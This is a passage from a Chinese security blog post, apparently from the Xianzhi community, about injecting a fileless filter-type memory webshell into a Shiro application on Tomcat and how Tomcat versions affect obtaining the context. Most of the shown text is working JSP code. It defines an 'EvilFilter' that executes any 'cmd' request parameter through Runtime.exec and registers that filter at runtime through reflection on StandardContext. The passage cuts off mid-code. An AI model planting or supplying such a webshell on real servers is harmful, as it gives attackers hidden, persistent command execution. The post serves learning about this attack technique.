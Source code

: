 

# shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析 - 先知社区

shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析

- - -

### 前言

这是个人在学习 filter 内存马注入的时候遇到的一个坑，希望后面学习的小白们能够避开。

#### 环境配置及准备

tomcat：tomcat8.5.50(正确版本)，tomcat8.5.79(踩坑版本)  
shiro 环境：p 神的 Java 安全配套环境 (里面的 shirodemo)[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings)

### shiro 注入 filter 内存马

在之前有了 jsp 型内存马实现的经验之后，我们需要思考一件事情。之前的以 jsp 形态为主的内存马的使用方式是通过上传文件然后再访问的方式进行利用，那么如果一个网站他没有文件上传的接口或者是功能这样的话我们该如何实现“种马”呢？这就要说到无文件落地内存马了，这种内存马一般是通过反序列化的方式注入到服务端当中而不会出现文件的落地。

如下是一个简单的 jsp 型 filter 内存马的一个简单实现，这里我写的很简洁，前半部分是恶意的 filter，后半部分是注册动态注册 filter

```bash
<%!
    public class EvilFilter implements Filter {
        public void init(FilterConfig filterConfig){
        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            Runtime.getRuntime().exec(cmd);
            filterChain.doFilter(servletRequest, servletResponse);
        }

        public void destroy(){}
    }
%>

<%
    //StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request request1 = (Request) field.get(request);
    StandardContext context = (StandardContext) request1.getContext();

    //FilterDef
    Filter filter = new EvilFilter();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName("EvilFilter");
    filterDef.setFilterClass(filter.getClass().getName());
    context.addFilterDef(filterDef);

    //FilterConfig
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
    Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
    field1.setAccessible(true);
    Map filterConfigs = (Map)field1.get(context);
```